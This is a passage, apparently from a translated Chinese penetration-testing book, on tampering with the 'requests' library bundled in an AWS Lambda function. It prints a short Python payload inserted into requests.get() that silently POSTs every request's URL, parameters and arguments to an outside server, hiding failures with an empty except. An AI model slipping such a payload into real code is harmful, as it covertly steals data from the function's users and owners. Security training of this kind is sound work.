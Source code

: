 使用包含的请求库的示例 Lambda 函数

这个函数很短，因此如果代码在我们的攻击过程中被直接修改，那么对任何人来说都是显而易见的，但是因为它正在导入`requests`库，而且`requests`库源代码也在那里，这将是我们的目标。我们可以看到，在第 4 行，`requests.get()`方法正在被调用。如果我们查看`requests`库的源代码，我们可以在`api.py`文件的第 63 行找到`requests.get()`方法（至少在撰写本文时）：

![](img/292e3758-55b4-461a-b11a-ba9f58338ab2.png)

requests.get（）方法的源代码

我们已经知道，每次 Lambda 函数运行时都会调用此方法，因此我们需要做的只是直接修改它，而不是修改调用它的文件（`lambda_function.py`。这次我们的负载需要稍微不同，因为整个`requests`库不是直接导入`requests`库中的每个文件，所以我们必须使用`"request"`方法，而不是`requests.post()`。我们的有效载荷将如下所示：

```
try:
    data = {'url': url, 'params': params, **kwargs}
    request('POST', 'http://1.1.1.1', json=data, timeout=0.01)
except:
    pass
```

这个有效负载基本上只是在完成原始请求之前，对我们自己的服务器发出的每个请求的所有细节进行过滤。我们或许能够截获一些敏感数据，以发挥我们的优势。我们可以在`get`方法中正确放置我们的恶意渗出负载，如以下屏幕截图所示：

![](img/30132e26-f6ca-417a-99b1-593714e5a6e2.png)
